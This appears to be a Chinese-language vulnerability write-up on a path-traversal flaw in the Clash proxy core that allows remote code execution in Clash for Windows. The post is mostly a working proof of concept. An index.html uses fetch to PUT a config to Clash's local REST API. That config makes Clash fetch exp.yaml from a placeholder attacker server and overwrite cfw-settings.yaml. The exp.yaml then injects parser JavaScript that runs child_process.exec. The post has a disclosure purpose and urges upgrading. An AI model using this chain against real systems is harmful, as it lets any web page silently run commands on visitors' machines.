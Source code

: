  **2、 CFW路径穿越致使parsers JS RCE**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629175645.png)

 ****

参考文章：  
https://github.com/Fndroid/clash_for_windows_pkg/issues/3891  
视频：  
https://bulianglin.com/archives/clashrce.html

 **  
**

  

 **复现**

  
  
  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629175629.png)  

  

根据大佬对源码的分析，课代表总结一下，因为是clash的路径穿越，导致clash for
windows的配置文件被覆盖，这个漏洞可以在任何clash有权限的位置写入文件，会造成一些安全问题，由于是内核漏洞Windows Linux
MacOS只要是使用clash内核通通都中招了，4月16号
clash发布了一个小版本更新，修复了路径穿越的漏洞，但很多人并没有意识到这个安全问题，可能不会升级到新版本，所以还是有必要让大家知晓一下，另外clash.meta是clash的分支项目，所以也存在路径穿越的漏洞，并且由于clash可以通过RESTful
api来控制内部设置，并且支持CORS，CORS意为跨域资源共享，也就是不同的域名可以共享相同的资源，导致可以在任何网站上调用Clash的API，就导致了无感知执行任意命令。  
如下给出了一份测试代码

 **1、Win POC**  

  

 **index.html:**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     <!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <meta http-equiv="X-UA-Compatible" content="IE=edge">    <meta name="viewport" content="width=device-width, initial-scale=1.0">    <title>Breaking Clash</title></head><body>    <h1 align="center">Breaking Clash</h1>    <p align="center"> <img src="https://raw.githubusercontent.com/Dreamacro/clash/master/docs/logo.png"></p>    <p>        <script>                    const data = {                payload: "mixed-port: 7890\nallow-lan: false\nmode: rule\nlog-level: warning\nproxy-providers:\n  provider1:\n    type: http\n    url: 'http:// {{yourevilser}}/exp.yaml'\n    interval: 3600\n    path: ../cfw-settings.yaml\n    healthcheck:\n      enable: true\n      interval: 600\n      url: http://www.gstatic.com/generate_204"            };            fetch('http://127.0.0.1:58383/configs?force=true', {                method: 'PUT',                headers: {                    'Content-type': 'application/json; charset=utf-8',                },                body: JSON.stringify(data),            }).then(response => response.json())                .then(data => {                    console.log('Success:', data);                })                .catch((error) => {                    console.log('Error:', error);                });</script></body></html>  
    

 ****

 **exp.yaml ：**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    payload:  - DOMAIN-SUFFIX,acl4.ssr,全球直连showNewVersionIcon: truehideAfterStartup: falserandomControllerPort: truerunTimeFormat: "hh : mm : ss"trayOrders:  - - icon  - - status    - traffic    - texthideTrayIcon: falseconnShowProcess: trueshowTrayProxyDelayIndicator: trueprofileParsersText: >-  parsers:    - reg: .*      code:         module.exports.parse = async (raw, { axios, yaml, notify, console }, { name, url, interval, selected }) => {          require("child_process").exec("calc.exe");          return raw;          }  
    